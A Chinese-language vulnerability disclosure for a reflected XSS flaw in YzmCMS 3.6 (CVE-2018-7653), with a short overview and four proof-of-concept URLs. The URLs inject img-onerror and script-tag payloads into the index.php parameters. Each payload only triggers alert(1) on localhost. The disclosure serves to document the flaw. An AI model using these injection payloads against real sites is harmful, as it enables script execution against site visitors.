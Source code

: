 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|YzmCMS 3.6存在XSS漏洞|2018-04-05|zzw (zzw@5ecurity.cn)|[http://www.yzmcms.com/](http://www.yzmcms.com/) | [http://www.yzmcms.com/](http://www.yzmcms.com/) |3.6| [CVE-2018-7653](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7653)|  

#### 漏洞概述  

> YzmCMS 3.6版本的 index.php页面a、c、m参数过滤不严格可导致跨站脚本漏洞。  

### POC实现代码如下：  

> poc代码:

``` html
http://localhost/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 
 
http://localhost/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes 
 
http://localhost/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes 
 
http://localhost/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes
```

